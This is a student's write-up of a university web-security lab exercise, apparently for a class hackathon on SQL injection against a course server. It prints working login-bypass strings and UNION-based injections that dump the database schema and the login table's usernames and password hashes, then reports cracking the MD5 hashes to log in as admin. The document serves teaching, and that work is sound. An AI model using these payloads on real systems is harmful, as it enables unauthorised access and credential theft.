# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Ruthvik Suvarnakanti

**Email**: suvarnrk@mail.uc.edu

{width=150px height=150px}


## Hackathon 2: SQL Injection Attacks

**Overview**: 

Link to the repository:
[https://github.com/suvarnrk/waph-suvarnrk/blob/main/hackathon2/README.md](https://github.com/suvarnrk/waph-suvarnrk/blob/main/hackathon2/README.md)

\pagebreak

## Level 0

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level0/echo.php)


attacking script :
```
Username: suvarnrk' or 1=1; #
```




\pagebreak

### Level 1

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1)

When I attempted to inject the code at this level using single quotes at first, a syntax error appeared.  Afterwards, double quotes were attempted, which caused the SQL Injection to occur.

attacking SQL script is passed in the username
```
Username: suvarnrk" or "1"="1" limit 1; #
```




\pagebreak

Source code Guess :
```$input = $_POST['input']; // Assuming input is coming from a POST request, adjust as necessary

// Prepare the SQL query with placeholders
$sql = "SELECT * FROM XXX WHERE YYY = ? AND zzzz = md5(?)";

// Prepare the statement
if ($stmt = $mysqli->prepare($sql)) {
    // Bind parameters
    $stmt->bind_param("ss", $input, $input_md5);

    // Set parameters and execute
    $input_md5 = $input; // Assuming you want to hash the input for zzzz
    $stmt->execute();

    // Get result
    $result = $stmt->get_result();

    // Check if there is exactly one row returned
    if ($result->num_rows == 1) {
        return TRUE;
    } else {
        return FALSE;
    }

    // Close statement
    $stmt->close();
} else {
    // Handle error if the prepare statement fails
    // For debugging purposes, you might want to log or display the error
    echo "Error: " . $mysqli->error;
}
```

\pagebreak

### Level 2


URL : [http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/](http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2/)

### A) Detecting SQLi Vulnerabilities
I tried many times to take advantage of the login.php file's SQL injection vulnerabilities, but I was unable to do so. Upon closer examination of the product.php page, I saw that the ID number is sent as a route variable, which might potentially lead to a SQL injection attack. After more investigation, it was discovered that two product entries were linked to distinct IDs. Utilizing SQL UNION may allow for the manipulation of the existing query structure to produce results that might be exploited.




\pagebreak

### B) Exploiting SQLi to Access Data

### i. Identify the Number of Columns

Upon experimenting with different values using SQL UNION, I discovered that the SQL query returns three columns.






\pagebreak

I utilized the following script to showcase my information.

id=1 Union select "suvarnrk","Ruthvik%20Suvarnakanti","WAPH-Hackathon"




### iii. Display the Database Schema

I extracted the database schema from information_schema using the script below.


id: 1 union select "Hacked by Ruthvik", table_name, column_name from information_schema.columns



\pagebreak

### iv. Display Login Credentials

I discovered that the login information is kept in a database named login, which includes the fields loginname and password, from the list of DBshchema that was obtained.


id: 1 union select "Hacked by Ruthvik", table_name, column_name from information_schema.columns where table_name="login"



\pagebreak

To obtain the login credentials, I utilized the below query.

id: 1 union select "Hacked by Ruthvik", loginname, password from login 

\pagebreak



I was able to restore the hashed password to its original value by using an MD5 conversion tool.



\pagebreak

I was able to successfully get in to login.php with the admin credentials by utilizing the list of passwords that I had taken from the login table.



